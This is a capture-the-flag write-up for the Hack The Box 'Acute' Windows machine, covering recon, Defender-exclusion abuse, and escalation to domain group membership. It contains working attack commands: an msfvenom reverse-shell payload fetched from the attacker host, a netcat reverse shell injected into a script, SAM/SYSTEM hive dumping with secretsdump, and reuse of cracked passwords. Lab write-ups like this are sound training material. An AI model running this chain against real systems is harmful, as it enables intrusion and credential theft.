


# [Acute](https://app.hackthebox.com/machines/Acute)

```bash
nmap -p- --min-rate 10000 10.10.11.145 -Pn
```


After detection of one port (443), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p443 10.10.11.145
```


From this image, I add 'atsserver.acute.local' and 'acute.local' into my '**/etc/hosts**' file


We have a web application for 'atsserver.acute.local'.


From response headers, I see that 'X-Powered-By' value is 'ASP.NET', let's search directories.

```bash
feroxbuster -u https://atsserver.acute.local/ -x aspx -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
```


I found `.docx` file which gives default password, also there is remote training is possible means (RDP is enabled for some server)


I got usernames from possible name and surnames for below image.


[Link](https://atsserver.acute.local/Acute_Staff_Access)  for remote access.


I also do `exiftool` for `.docx` file, which shows computer name '**Acute-PC01**'.

Possible usernames like below for one password 'Password1!'.

```bash
awallace
chall
edavies
imonks
jmorgan
lhopkins
```


I got Powershell.


I tried to upload malicious executable, but it doesn't work as because of 'Windows Defender'.

I search `Exclusions` directories for  'Windows Defender' via below `reg query` command.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```


Let's upload malicious executable into 'C:\Utils' directory.

1.First, let's create malicious executable via `msfvenom` command.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1337 LHOST=10.10.16.6 -f exe -o dr4ks.exe
```


2.Let's open HTTP serve to serve this malicious executable.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


3.Then, download this via `wget` command. (on C:\Utils)
```bash
wget http://10.10.16.6:8080/dr4ks.exe -outfile dr4ks.exe
```



While executing this malicious 'dr4ks.exe' file, I got reverse shell from port (1337).


I see live RDP sessions via `qwinsta` command.

```bash
qwinsta /server:127.0.0.1
```


While I doing `screenshare` command on `meterpreter` shell, it gives live screen recording to me.


I copied all commands from screen mirroring.

```bash
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred
```




I check that my credentials worked or not via below command.

```bash
Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


I can read user.txt file via typing a lot of commands using this session.

```bash
Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

user.txt


I found a file which have sensitive credentials called 'wm.ps1'
```bash
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


I knwo that this 'jmorgan' user is group of '**Administrators**' `net localgroup Administrators`.


Now, I replace this `wm.ps1` command via my reverse shell, but my `nc.exe` binary should be in 'C:\Utils' directory.


```bash
Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc.exe -e cmd 10.10.16.6 1338') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


Yes, I read that my reverse shell script block is located or not via below command.

```bash
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


Let's run this powershell script via below cmdlet.

```bash
Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

I got reverse shell from port (1338).


As this user belongs to 'Administrators' localgroup, can easily dump 'SAM' and 'SYSTEM' files.

```bash
reg save HKLM\sam sam.bak
reg save HKLM\system sys.bak
```


I download two files from `meterpreter` shell.


Now, to dump SAM database, I need to use `secretsdump.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system sys.bak LOCAL
```


I crack the password of 'Administrator' user via [Crackstation](https://crackstation.net).


I use this password for 'awallace' user.

```bash
$pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
```


I found a script which this user have permission '\program files\keepmeon'. which is `.bat` file, If I add reverse shell into it, I can be Administrator.


I looked at Domain Admins via `net group /domain`.


I looked at specific one called 'Site_Admin'.


I will use `.bat` script to add my user into this 'Site_Admin' group via below command.

```bash
Invoke-Command -ScriptBlock { Set-Content -Path '\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred  #check that previous command added or not
```


Now, I can read root.txt via below command.

```bash
Invoke-Command -ScriptBlock { cat \users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


root.txt


